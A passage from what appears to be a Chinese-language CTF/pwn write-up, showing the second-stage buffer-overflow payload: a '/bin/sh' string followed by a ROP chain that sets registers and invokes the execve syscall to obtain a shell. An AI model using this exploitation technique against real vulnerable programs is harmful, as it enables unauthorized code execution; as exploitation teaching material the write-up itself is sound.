 那么第二轮的payload我们只需要考虑两部分内容即可

*   留下`/bin/sh`字符串
*   在read的ret地址处留下构造好的ROP链

第二次溢出payload构造如下:

```plain
payload = b'/bin/sh\x00'
payload += p64(0)*6
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rdx_rbx)
payload += p64(0)
payload += p64(0)
payload += p64(pop_rax)
payload += p64(0x3b)
payload += p64(syscall)
```

可以看到在调用`read()`返回时，地址变为了刚刚读入的ROP链，最终成功getshell.

[![](assets/1701606727-54d5e43594ef34cc6fe2b643ea1f8a3e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107164907-83214018-7d4a-1.png)

[![](assets/1701606727-b03ce0ff5f8d410bda7598270881fc75.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107164916-886b7ade-7d4a-1.png)
